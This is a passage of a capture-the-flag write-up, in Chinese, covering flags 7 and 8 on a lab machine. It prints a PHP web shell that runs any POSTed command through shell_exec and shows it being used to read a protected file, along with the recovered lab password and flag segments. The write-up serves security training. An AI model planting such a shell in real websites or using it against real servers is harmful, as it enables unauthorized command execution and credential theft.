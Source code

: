 #### Flag7

进入提示目录

```
seis@svos:/var/www/html/shellcmsdashboard$ ls -all
total 24
drwxrwxrwx 2 root     root 4096 Nov 13 20:44 .
drwxr-xr-x 5 root     root 4096 Oct  8 17:51 ..
-rwxrwxrwx 1 root     root 1459 Oct  1 17:57 aabbzzee.php
-rwxrwxrwx 1 root     root 1546 Oct 18 15:02 index.php
-rwx-wx-wx 1 www-data root   48 Oct  8 17:54 readme9213.txt
-rwxrwxrwx 1 root     root   58 Oct  1 17:37 robots.txt
```

发现 readme9213.txt 需要 www-data 才能查看，继续查看 aabbzzee.php

```
<?php
    if(isset($_POST['comm']))
    {
        $cmd = $_POST['comm'];
        echo "<center>";
        echo shell_exec($cmd);
        echo"</center>";
    }
?>
```

利用该 php 执行命令成功读取 txt 文档信息，获取到用户 siete 密码 6u1l3rm0p3n473。

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/zSNEpUdpZQSTbKInEkFfcrkFZt3DOibLWlClCcRaExXDyq77DX1df5XfE0icB7fzL7vDyqibt0bqlgTDY9phmP13Q/640?wx_fmt=jpeg)

```
siete@svos:~$ ls
flag7.txt  hint.txt  key.txt  message.txt  mighthelp.go  password.zip
siete@svos:~$ cat flag7.txt
Congratulations!
Here's your 7th flag segment: flag7{d5c26a}
```

#### Flag8

```
siete@svos:~$ cat hint.txt 
Base 10 and Base 256 result in Base 256!
siete@svos:~$ cat key.txt 
x
siete@svos:~$ cat message.txt 
[11 29 27 25 10 21 1 0 23 10 17 12 13 8]
siete@svos:~$ cat mighthelp.go 
package main import(
        "fmt" ) func main() {
        var chars =[]byte{}
        str1 := string(chars)
        fmt.println(str1)
}
```
